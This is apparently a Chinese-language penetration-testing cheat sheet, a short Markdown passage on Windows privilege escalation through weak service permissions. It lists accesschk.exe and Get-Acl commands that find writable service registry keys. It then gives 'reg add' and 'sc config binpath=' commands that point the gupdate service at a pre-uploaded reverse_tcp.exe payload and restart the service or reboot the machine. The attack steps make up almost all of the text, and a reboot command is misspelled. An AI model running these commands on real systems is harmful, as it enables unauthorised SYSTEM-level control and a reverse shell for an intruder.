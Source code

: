 #### 方法一（修改注册表）

使用`accesschk.exe`查找对注册表的权限

```bash
accesschk.exe /accepteula -uvwqk "Authenticated Users" HKLM\SYSTEM\CurrentControlSet\Services
```

```bash
accesschk.exe /accepteula -uwcqv "Authenticated Users" gupdate # 查看对该服务是否有重启权限
```

使用powershell的`Get-Acl`查找注册表权限

```powershell
# 找有写权限, 并且用户也可以启动和停止服务 Allow FullControl
Get-Acl -Path hklm:\System\CurrentControlSet\services\* | select Path,AccessToString | Format-List > 1.txt

# 查看对该注册表的权限
Get-Acl -Path hklm:\System\CurrentControlSet\services\gupdate | fl 
```

修改服务

```bash
reg add "HKLM\SYSTEM\CurrentControlSet\Services\gupdate" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /k C:\Users\Public\reverse_tcp.exe" /f
```

启动服务

```bash
sc start gupdate
```

#### 方法二

```bash
accesschk.exe /accepteula -uwcqv "Authenticated Users" *   # 枚举目标主机"Authenticated Users"组对服务的权限
accesschk.exe /accepteula -uwcqv "INTERACTIVE" *  # 枚举目标主机"INTERACTIVE"组对服务的权限
```

将该服务的启动时执行的二进制文件替换为预先上传的攻击载荷

```bash
sc config gupdate binpath= "cmd.exe /k C:\Users\Public\reverse_tcp.exe" # "="后面必须有空格
```

如果有关闭和开启该服务的权限则直接关闭和开启该服务

```bash
sc stop gupdate
sc start gupdate
```

如果没有，则重启系统

```bash
shutdonw -r -t 0
```
